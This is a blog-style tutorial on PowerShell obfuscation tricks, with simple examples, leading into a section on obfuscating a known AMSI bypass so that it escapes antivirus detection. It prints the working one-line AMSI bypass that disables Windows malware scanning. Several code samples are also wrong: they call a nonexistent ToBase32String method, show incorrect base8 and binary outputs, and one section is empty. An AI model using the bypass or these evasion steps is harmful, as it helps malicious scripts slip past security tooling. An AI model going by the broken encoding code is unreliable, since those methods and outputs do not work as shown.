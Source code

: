```yaml
---
title: Ports 
date: 2023-01-06 16:35:00 +00:00
categories: [ports]
tags: [ports]     # TAG names should always be lowercase
---
```



# Powershell Obsfucation tricks with examples

Here is a list of obsfucation techniques. 

- String encoding: This involves converting strings into a different format, such as base64 or hexadecimal, to make them harder to read and understand.
- Command substitution: This involves using commands that generate output and assigning the output to a variable, making it difficult to determine the original command.
- Variable renaming: This involves giving variables intentionally confusing names to make it harder to understand the code.
- Function renaming: Similar to variable renaming, this involves giving functions intentionally confusing names to make the code harder to understand.
- Comment removal: Removing comments from the code can make it harder to understand and follow.
- Code concatenation: This involves breaking up code into smaller pieces and concatenating them together, making it harder to read and understand.
- Control flow obfuscation: This involves using techniques like loop unrolling, where a loop is replaced with multiple copies of the code it contains, making it harder to understand the code's logic.

Remember that while obfuscation can make it harder for someone to understand your code, it is not a foolproof method for hiding it. It is always possible for someone with enough knowledge and resources to reverse-engineer obfuscated code.


1. String encoding:

```powershell
$string = "Hello World"
$encodedString = [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($string))
# Output: "SGVsbG8gV29ybGQ="
```

2. Command substitution:

```powershell
$output = dir | Out-String
$command = "Get-ChildItem"
Invoke-Expression $command
# Output: The contents of the current directory
```

3. Variable renaming:

```powershell
$a = 1
$b = 2
$c = 3
$xyz = $a + $b + $c
# Output: 6
```

4. Function renaming:

```powershell
function abc {
    "Hello World"
}

abc
# Output: "Hello World"
```

5. Comment removal:

```powershell
# This is a comment
Write-Output "Hello World"

# Output: "Hello World"
```

6. Code concatenation:

```
$code = "Write-Output `"H`" + `"ello`""
$code += " `"W`" + `"orld`""
Invoke-Expression $code
# Output: "Hello World"
```

7. Control flow obfuscation:

```powershell
$i = 0
$output = ""

while ($i -lt 5) {
    $output += "Hello "
    $i++
}

$output += "World"
Write-Output $output
# Output: "Hello Hello Hello Hello Hello World"
```

8. Charater substitution

```powershell
$string = "He110 W0r1d"
$charSub = $string.Replace("1", "l").Replace("0", "o")
# Output: "Hello World"
```

9. Integer substitution

```powershell

```

## String encoding expanded

Here is an example of encoding and decoding using base64, base32, base16 (hexadecimal), base8 (octal), and base2 (binary):

All the base's

```powershell
# Encode
$string = "Hello World"
$base64 = [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($string))
$base32 = [System.Convert]::ToBase32String([System.Text.Encoding]::UTF8.GetBytes($string))
$base16 = [System.Convert]::ToString([System.Text.Encoding]::UTF8.GetBytes($string), 16)
$base8 = [System.Convert]::ToString([System.Text.Encoding]::UTF8.GetBytes($string), 8)
$base2 = [System.Convert]::ToString([System.Text.Encoding]::UTF8.GetBytes($string), 2)

# Output:
# base64: "SGVsbG8gV29ybGQ="
# base32: "NBSWY3DPEB3W64TMMQ======"
# base16: "48656c6c6f20576f726c64"
# base8: "15015415152074747464544"
# base2: "1001000 11100110 11001100 11001100 11001111 100000 1010111 11011111 11100110 11001100 11001111 11010000"

# Decode (this shows the base64 decode method only) 
$decodedString = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($base64))
# Output: "Hello World"
```

>Note that the FromBase64String and GetBytes methods of the System.Convert and System.Text.Encoding classes, respectively, can be used to decode the encoded strings. You can also use the ToBase64String, ToBase32String, and ToString methods to encode strings in these different bases.

## Amsi bypass fudding!

Taking one of the original Amsi bypass methods for powershell and applying some of the techinques above lets see what we can do! 

Original Amsi bypass (Detected) 

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

![image](https://user-images.githubusercontent.com/5285547/211034087-1cd5bd53-060c-41b4-8a55-1cf973a20beb.png)

Now lets try to split a string up or two!

Lets start with the `"System.Management.Automation.AmsiUtils"` specifically the `AmsiUtils` part


